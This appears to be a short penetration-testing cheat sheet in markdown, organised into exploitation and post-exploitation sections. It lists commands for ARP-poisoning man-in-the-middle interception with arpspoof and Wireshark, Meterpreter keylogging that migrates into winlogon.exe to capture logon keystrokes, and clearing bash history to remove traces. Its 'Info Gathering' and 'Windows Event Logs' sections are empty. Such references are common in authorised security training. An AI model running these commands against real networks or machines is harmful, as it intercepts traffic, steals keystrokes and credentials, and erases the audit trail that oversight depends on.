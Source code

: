 # 1 Info Gathering and Enumeration


# 2 Exploitation
## ARP Poisoning
```
echo 1 > /proc/sys/net/ipv4/ip_forward
cat /proc/sys/net/ipv4/ip_forward
```
```
arpspoof -i eth1 -t <ip1> -r <ip2>
```
```
sudo wireshark -i eth1 -k
```



# 3 Post-Exploitation
## Keylogging
```
meterpreter > getdesktop
```
```
meterpreter > keyscan_start
meterpreter > keyscan_dump
meterpreter > keyscan_stop
```
```
meterpreter > migrate -N winlogon.exe
```

## Clear Linux History
```
cat /dev/null > ~/.bash_history
history -c
```

## Clear Windows Event Logs
```
```
